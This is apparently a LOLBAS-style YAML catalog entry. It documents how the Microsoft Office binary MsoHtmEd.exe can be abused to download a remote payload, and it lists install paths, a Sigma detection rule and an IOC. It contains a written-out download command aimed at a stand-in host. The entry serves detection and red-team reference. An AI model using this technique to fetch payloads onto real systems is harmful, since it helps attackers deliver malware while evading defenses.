 ```yaml
---
Name: MsoHtmEd.exe
Description: Microsoft Office component
Author: Nir Chako
Created: 2022-07-24
Commands:
  - Command: MsoHtmEd.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSOHTMED.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/19396788dbedc57249a46efed2bb1927abc376d4/rules/windows/process_creation/proc_creation_win_lolbin_msohtmed_download.yml
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```


